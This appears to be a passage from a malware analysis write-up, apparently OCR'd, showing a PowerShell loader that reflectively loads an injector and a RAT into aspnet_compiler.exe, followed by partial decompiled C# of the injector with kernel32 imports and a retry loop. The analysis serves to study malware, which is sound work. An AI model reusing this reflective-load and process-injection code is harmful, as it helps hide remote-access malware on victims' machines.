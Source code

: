 ```powershell
$H12 = 'C:\Windows\Microsoft.NET\Framework\v4.0.30\aspnet_compiler.exe'
[Reflection.Assembly]::Load($H5).GetType('HH.HH').GetMethod('HHH').Invoke($null,[object[]](,$H6))
```

Greatly simplified. H5 == the injector, H6 == the RAT

## Extracting the Binaries



## Decompiling the Injector

```cs
[assembly: AssemblyTitle("Bit")]
[assembly: AssemblyDescription("")]
[assembly: AssemblyConfiguration("")]
[assembly: AssemblyCompany("")]
[assembly: AssemblyProduct("Bit")]
[assembly: AssemblyCopyright("Copyright ©  2021")]
[assembly: AssemblyTrademark("")]
[assembly: ComVisible(false)]
[assembly: Guid("8c863524-938b-4d92-a507-f7032311c0d0")]
[assembly: AssemblyFileVersion("1.0.0.0")]
[assembly: TargetFramework(".NETFramework,Version=v4.0", FrameworkDisplayName = ".NET Framework 4")]
[assembly: AssemblyVersion("1.0.0.0")]
namespace HH
{
	public static class HH
	{
		private delegate int a(IntPtr a);

        ...

        [DllImport("kernel32", EntryPoint = "LoadLibraryA", SetLastError = true)]
		private static extern IntPtr a([MarshalAs(UnmanagedType.VBByRefStr)] ref string a);

		[DllImport("kernel32", CharSet = CharSet.Ansi, EntryPoint = "GetProcAddress", ExactSpelling = true, SetLastError = true)]
		private static extern IntPtr b(IntPtr a, [MarshalAs(UnmanagedType.VBByRefStr)] ref string b);

        ...

        public static bool HHH(string HHHHHHHHHHBBBBBBBBBB, byte[] HHHHHHHHHHHHHHHHHHHHHHHHHHBBBBBBBBBBBBBBBBBBBBBBBBBBBB)
		{
			int num = 1;
			while (!d(HHHHHHHHHHBBBBBBBBBB, HHHHHHHHHHHHHHHHHHHHHHHHHHBBBBBBBBBBBBBBBBBBBBBBBBBBBB))
			{
				num = checked(num + 1);
				if (num > 5)
				{
					return false;
				}
			}
			return true;
		}
```
